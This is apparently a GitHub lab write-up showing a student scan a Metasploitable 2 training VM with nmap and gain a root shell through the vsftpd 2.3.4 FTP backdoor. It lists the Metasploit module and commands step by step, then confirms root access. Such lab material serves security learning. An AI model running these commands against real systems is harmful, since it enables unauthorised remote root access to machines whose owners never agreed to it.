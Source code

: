 

## 🎯 Target Information
- **Target IP**: `192.168.56.101`
- **System**: Metasploitable 2
- **Vulnerable Service**: FTP (vsftpd 2.3.4)
- **Port**: 21/tcp

## 🔍 Scanning Results (Nmap)
nmap -sV -sC -O -oN scan.txt 192.168.56.101
![image](https://github.com/user-attachments/assets/62de0928-4d86-497c-9f76-3d1cadc55080)
```
I conducted the nmap scan on the given IP so I could know the given vulnerability present 
```
# Result:
![image](https://github.com/user-attachments/assets/9f995d14-400d-4f93-bd1c-167787794a72)
21/tcp open  ftp     vsftpd 2.3.4
```
You can see the result there is open port which is 21 and has vstfpd 2.3.4 as version which has exploitation 
```



## 💣 Exploitation (Metasploit):



![image](https://github.com/user-attachments/assets/c787d4ae-13cf-4db1-85fb-4ae0b88b5677)
![image](https://github.com/user-attachments/assets/d9aa1f10-4700-4a71-8038-de4aed8aa8fd)
![image](https://github.com/user-attachments/assets/520ab200-1ae4-49fb-ac6e-7345660eede4)
![image](https://github.com/user-attachments/assets/81415b7d-1f72-4a0b-9fd7-06aac8e526d3)
```
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
exploit

This above are the commands I ran without the use of payload so that I can access the  targets device because of its vulnerability.
```

🖥️ Shell Access
![image](https://github.com/user-attachments/assets/af1a541b-2898-44b4-9ab4-a809f4279509)

```
sessions -i 1
whoami
uname -a

This to know if we have the control over the device of targets IP
````

 Result
Successfully gained command shell as root
Confirmed RCE via the FTP backdoor.
